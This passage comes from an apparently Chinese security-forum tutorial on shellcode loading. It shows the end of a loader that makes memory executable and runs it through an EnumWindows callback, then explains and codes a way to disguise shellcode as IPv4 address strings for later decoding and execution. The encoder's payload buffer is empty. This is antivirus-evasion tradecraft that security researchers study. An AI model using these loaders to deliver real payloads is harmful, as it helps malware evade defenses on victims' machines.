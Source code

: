 ```php
    VirtualProtectEx(GetCurrentProcess(), Address, memory_allocation, PAGE_EXECUTE, &pflOldProtect);

    EnumWindows((WNDENUMPROC)Address, NULL);

    return 0;
}
```

![1.png](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-2bcd8fb9db2f0cc7cd50cbd60553bf67f9dca4af.png)

IPV4内存加载
--------

IPv4是一种无连接的协议，操作在使用分组交换的链路层（如以太网）上。此协议会尽最大努力交付数据包，意即它不保证任何数据包均能送达目的地，也不保证所有数据包均按照正确的顺序无重复地到达。  
IPv4使用32位（4字节）地址，因此地址空间中只有4,294,967,296（232）个地址。  
我们可以利用RtlIpv4AddressToStringA函数将shellcode转换为ipv4的地址，然后利用RtlIpv4StringToAddressA函数将其转换回去，执行我们的代码

### RtlIpv4AddressToStringA

函数将 IPv4 地址转换为 Internet 标准点十进制格式的字符串。

```php
NTSYSAPI PSTR RtlIpv4AddressToStringA(
  [in]  const in_addr *Addr,
  [out] PSTR          S
);
```

第一个参数就是我们需要转换的数据，第二个参数就是用于存储转换后的数据，这里我用c++写的（网上用的是python写的）

```php
#include <windows.h>
#include <ip2string.h>
#include <iostream>

#pragma comment(lib, "ntdll.lib")
using namespace std;

int main(int argc, char* argv[]) {
    char buf[] = "";
    char* p = buf;
    char ip_str[sizeof(buf)];
    cout << "const char* buf[] = {";
    for (int i = 0; i <= (sizeof(buf) - 1) / 4; i++) {
        RtlIpv4AddressToStringA((const IN_ADDR*)&(*p), ip_str);
        p += 4;
        if (i == (sizeof(buf) - 1) / 4) {
            cout << "\"" << ip_str << "\"";
        }
        else {
            cout << "\"" << ip_str << "\",";
        }
    }
    cout << "};";

    return 0;
}
```
